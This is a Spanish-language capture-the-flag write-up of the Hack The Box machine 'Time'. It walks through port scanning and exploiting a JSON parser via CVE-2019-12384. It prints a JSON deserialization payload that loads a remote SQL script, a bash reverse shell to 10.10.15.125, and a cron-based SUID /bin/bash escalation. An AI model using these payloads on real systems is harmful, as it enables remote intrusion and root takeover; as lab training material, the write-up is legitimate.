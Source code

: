```yaml
---
title: "Time - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/time/data/time.png"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - RCE (Remote Code Execution)
  - Json
---
```



<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/data/TimeHTB.png">
</p>

La máquina **Time** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 3.5, **5710 USER OWNS** y **5369 SYSTEM OWNS** con la ip **10.10.10.214** y un sistema operativo **Linux**.


### Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con estado abierto.
  - **-oG:**    Guarde la el output en formato Grepeable.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/scanPort.png">
</p>


Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/Ports.png">
</p>


Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
  - -sV: Detección de versiones en servicios alojados en puertos.
  - -p : Puertos a inspeccionar.
  - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/PortServ.png">
</p>


Lo que nmap nos ha mostrado sobre los servicios es que tiene un servicio ssh y una página http que está soportada por apache 2.4.41 que tiene un **Online Json parser** corriendo. Aparte de estos datos no vemos nada fuera de lo normal o que indique un foco a seguir que no sea la página con el Json.

Si entramos en la página web desde el navegador podemos ver la aplicación **Json** que está montada en la web:

<p align="center">
<img src="/assets/images/machines/time/scan/pageWeb.png">
</p>

Una vez que hemos identificado una posible ruta para nuestra auditoría, empezamos a jugar con la aplicación y vemos que tiene dos opciones **'embellecer'** y **'validar (beta)'** si introducimos datos en la segunda podemos ver que nos muestra el siguiente error:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/errorPage.png">
</p>


Investigando el error y si tiene alguna forma de abusar de él ya sea para hacer algún tipo de **RCE** o otro potencial camino a seguir y haciendo una buena búsqueda en internet sobre este error encontré un documento en **[github](https://github.com/jas502n/CVE-2019-12384)** que hablaba de cómo hacer una ejecución de comandos en una aplicación aprovechando una vulnerabilidad existente en la misma. Sigo los pasos mencionados en la página que era crear un archivo **inject.sql** que tenía el siguiente contenido:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.15.125/443 0>&1')
```

Una vez creado el archivo me puse en el puerto **443** y levanté un servidor HTTP en el puerto 8000, una vez hecho esto envié la siguiente consulta a través de la aplicación web:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.15.125:8000/inject.sql'"}]
```

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/payload.png">
</p>

La respuesta que me dio fue un get al archivo **Inject.sql** en el lado del servidor que inicié y desde el puerto que abrí interpretó el comando dándome un shell:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/acces.png">
</p>

## Movimiento Lateral

Haciendo un pequeño reconocimiento en el sistema podemos ver que hay una tarea cron que se ejecutan a intervalos de tiempo regulares en este caso cada **7 segundos** el cual es **'timer\_backup.timer'**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/cron.png">
</p>

Una vez que sabemos que existe un CronJob procedemos a buscar el archivo para ver si es una ruta a seguir para conseguir la escalada de privilegios, utilizando el comando ```$ systemctl list-timers ``` podemos encontrar la ubicación de este archivo y concatenando un ls -la podemos ver que el archivo nos pertenece por lo que podemos editarlo sin problemas

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/cronjob.png">
</p>

## Escalacion de privilegios

Para la escalada de privilegios lo que hice fue ir al archivo y dentro del archivo modifiqué el contenido que tenía por el siguiente:

```bash

#!/bin/bash
chmod 4755 /bin/bash

```

Una vez que modificamos el archivo **timer\_backup** esperamos a que la tarea cron se ejecute y root asigne el permiso **SUID** a la ruta **/bin/bash** lo cual nos permitira utilizar el parámetro ``` bash -p ``` que nos dará una shell como root ya que estamos ejecutando temporalmente el binario como el propiertario del mismo y asi teniendo acceso completo a la máquina y completado el rooteo de la misma.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/root.png">
</p>

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/root2.png">
</p>
